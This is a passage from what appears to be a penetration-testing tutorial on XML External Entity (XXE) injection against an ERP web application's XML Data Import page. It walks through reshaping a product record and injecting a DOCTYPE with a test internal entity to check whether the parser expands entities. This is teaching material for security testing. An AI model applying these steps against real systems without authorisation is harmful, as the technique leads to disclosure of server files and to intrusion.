 The `longDescription` field is a good target for our attempted XXE attack. The application should display that field and can likely handle arbitrary text. However, the XML specification does not allow external entities in attribute values. We will need to restructure the XML to use the _longDescription_ as an element instead as an attribute. The application should still parse the XML as there are no hard rules in the XML specification about when to use elements or attributes. We will also update the _productId_ to make it easier to search for.

```xml
<Product 
  createdStamp="2021-06-04 08:15:49.363" 
  createdTxStamp="2021-06-04 08:15:48.983" 
  description="Giant Widget with Wheels" 
  internalName="Giant Widget variant explosion" 
  isVariant="N" 
  isVirtual="Y" 
  largeImageUrl="/images/products/WG-9943/large.png" 
  lastUpdatedStamp="2021-06-04 08:16:18.521" 
  lastUpdatedTxStamp="2021-06-04 08:16:18.258" 
  primaryProductCategoryId="202" 
  productId="XXE-0001" 
  productName="Giant Widget with variant explosion" 
  productTypeId="FINISHED_GOOD" 
  productWeight="22.000000" 
  quantityIncluded="10.000000" 
  smallImageUrl="/images/products/WG-9943/small.png"   
  virtualVariantMethodEnum="VV_VARIANTTREE"
>
  <longDescription>This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item.</longDescription>
</Product>
```

Now that we have a baseline object, let's determine if the application's XML parser will parse an entity.

We will focus on the XML Data Import page at `/webtools/control/EntityImport`, which we navigate to by clicking the _XML Data Import_ button. Let's try a simple internal entity to determine if the application is vulnerable to XXE.

The DTD definition is included at the start of the XML data. We will need to update the value of the `longDescription` element to reference the internal entity.

```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```
